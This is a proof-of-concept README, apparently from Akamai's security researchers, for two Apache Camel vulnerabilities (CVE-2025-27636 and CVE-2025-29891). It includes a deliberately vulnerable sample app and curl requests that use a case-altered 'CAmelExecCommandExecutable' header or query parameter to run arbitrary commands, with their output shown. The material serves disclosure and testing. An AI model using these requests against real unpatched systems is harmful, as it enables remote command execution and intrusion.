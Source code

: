 # Apache Camel CVE-2025–27636 & CVE-2025-29891 PoC

[CVE-2025–27636](https://nvd.nist.gov/vuln/detail/CVE-2025-27636) and [CVE-2025-29891](https://nvd.nist.gov/vuln/detail/CVE-2025-29891) are vulnerabilities in Apache Camel that affect versions:
4.10.0-4.10.1, 4.8.0-4.8.4, 3.10.0-3.22.3. 
Exploitation of these vulnerabilities can enable attackers to execute internal Camel methods.

The following is a sample vulnerable application that utilizes the Camel Exec component, which can be exploited to achieve RCE. Other Camel components could be exploited in a similar manner.

## Building

1. Install java and Maven
2. Build the project by running: 
 ```
 mvn clean package
 ```
 3. Run the app:
 ```
 mvn exec:java -Dexec.mainClass=camel.vulnerable.VulnerableCamel
 ```

## Exploiting CVE-2025–27636 & CVE-2025-29891

The app exposes an HTTP endpoint that is meant to execute the "whoami" command and return the result to the client.
The "Exec" Camel component is configured to execute the command, which is statically defined in the code.

```
// recieve request from client and pass it to the "Exec" camel component
from("jetty:http://0.0.0.0:80/vulnerable")
.log("Received request from client")
// define a static command. This can be overwritten using the "CamelExecCommandExecutable" header
.to("exec:whoami") 
.convertBodyTo(String.class) 
.log("Command Output: ${body}");
```

### CVE-2025–27636
Despite the fact the command is static, we can overwrite it by passing the *CamelExecCommandExecutable* header, which ([as specified in the docs](https://camel.apache.org/components/4.10.x/exec-component.html#:~:text=CamelExecCommandExecutable)) overwrites the static URI.
Apache Camel is supposed to filter such headers, but due to incorrect handling of casing, passing the header "**CA**melExecCommandExecutable" bypasses the filter.

Executing the following command will override the static "whoami" command and instead run an arbitrary command:

```
$ curl "http://localhost:80/vulnerable" --header "CAmelExecCommandExecutable: ls"
pom.xml
src
target
```

We can also pass arguments by specifying the *CamelExecCommandArgs* header:

```
$ curl "http://localhost:80/vulnerable" --header "CAmelExecCommandExecutable: ping" --header "CAmelExecCommandArgs: -c 2 8.8.8.8"
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=128 time=98.9 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=128 time=46.4 ms

--- 8.8.8.8 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1012ms

```

If we pass the "normal" header, we will note that exploitation fails and the static "whoami" command executes normally:

```
$ curl "http://localhost:80/vulnerable" --header "CamelExecCommandExecutable: ls"                                               
kali
```

### CVE-2025–29891

Originally, it was believed that request headers were the only exploitation vector. However, Akamai’s security research team reported an additional vector to the Apache Camel development team, leading to the assignment of CVE-2025-29891.
This issue originates from the same filtering flaw as CVE-2025-27636, and enables invoking internal methods through request parameters.

In the following example, we can see that specifying the “CAmelExecCommandExecutable” query parameter leads to arbitrary command execution - just like the original header vector:

```
$ curl "http://localhost:80/vulnerable?CAmelExecCommandExecutable=ls"
pom.xml
src
target
```

The original patch that was implemented to fix CVE-2025-27636 solves this issue as well, so applications that use up-to-date versions of Apache Camel are not vulnerable to this exploitation vector.


## License
Copyright 2025 Akamai Technologies Inc.

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.